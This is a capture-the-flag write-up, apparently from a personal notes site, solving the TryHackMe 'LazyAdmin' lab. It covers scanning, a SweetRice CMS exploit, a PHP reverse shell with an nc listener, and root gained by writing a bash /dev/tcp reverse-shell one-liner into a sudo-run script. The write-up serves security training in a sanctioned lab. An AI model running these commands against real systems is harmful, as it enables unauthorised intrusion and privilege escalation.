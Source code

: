# LazyAdmin

**Room Link:** [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)



### Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```



<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit sweet rice
searchsploit -m php/webapps/40718.txt
```

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://crackstation.net/](https://crackstation.net/)

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Tried to ssh with the credentials but it didn't work, went back to searchsploit because I saw a python script before but it needed credentials. I modified the script to take the input because I waa lazy.&#x20;

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
searchsploit sweet rice
searchsploit -m php/webapps/40716.py
python 40716.py
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

The php reverse shell setups up a reverse shell so I setup a nc listener on Kali and went to the URL the script mentioned.

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

The user has access to run backup.pl without a password, I checked the the file and all it does is run a bash script. We have access to write to copy.sh so I changed it to a reverse shell one liner and setup my listener on Kali.

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8080
```

**Victim**

```
echo "bash -c 'bash -i >& /dev/tcp/$KALI/8080 0>&1'"> copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>















